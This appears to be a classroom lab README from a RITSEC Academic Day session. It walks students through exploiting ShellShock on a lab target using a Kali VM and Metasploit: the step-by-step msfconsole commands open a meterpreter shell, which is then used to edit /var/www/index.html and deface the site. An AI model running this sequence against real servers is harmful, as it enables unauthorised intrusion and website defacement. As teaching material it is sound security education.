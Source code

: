 # RITSEC Academic Day - ShellShock 

## Setup
- Open 'VMWare Workstation Pro'
- Click on 'Kali Linux 2021' on the left side list of VMs
- Right click again on 'Kali Linux 2021' and click 'Settings'. 

![settings](settings.PNG)

    - Select 'Network Adapter' and change it to 'Bridged'

![bridge](bridge.PNG)

- Hit the Play Button to start the VM.
    - Username: kali
    - Password: kali

## Viewing the Website
- Click the top left logo to search for firefox.
- Open your browser and head to http://<TARGET_IP>:8080

## Attacking the Box - Commands To Run
- Click the Black Box with the "$_" to open the terminal.

![terminal](terminal.PNG)

This will open the Metasploit Console.

1. `msfconsole`

![landing](landing.PNG)

Here, you are searching for the shellshock vulnerability to use.

2. `search shellshock`

![search](search.PNG)

This is selecting the shellshock exploit.

3. `use 1`

![use1](use1.PNG)

This is seeing the module and payload options that will be configured.

4. `options`

![options](options.PNG)

Setting the vulnerable cgi page to utilize.

5. `set targeturi /cgi-bin/vulnerable`

![targeturi](targeturi.PNG)

Setting the target hosting the site that we will attack.

6. `set rhosts <TARGET_IP>`

Setting the port the website is being hosted on.

7. `set rport 8080`

![rport](rport.PNG)

Attack the box!

7. `exploit`

![exploit](exploit.PNG)

## Modifying the Website

With your meterpreter shell, now you can modify the website. 

Most websites by default keep their files in `/var/www`. In our case, the `index.html` file contains the main page of the website. 

Use the `edit /var/www/index.html` command to edit the file. Add your name to the website!

![edit](edit.PNG)


- Once you are in the text editor, press the 'i' key to go into insert mode.
- Use the arrow keys to move down to the < li > section
- Once you add your name, hit the 'ESC' key, type ':wq' and hit 'Enter'

![nameadd](nameadd.PNG)

Now visit the website in your browser and see your name publicly hosted on the target site!!
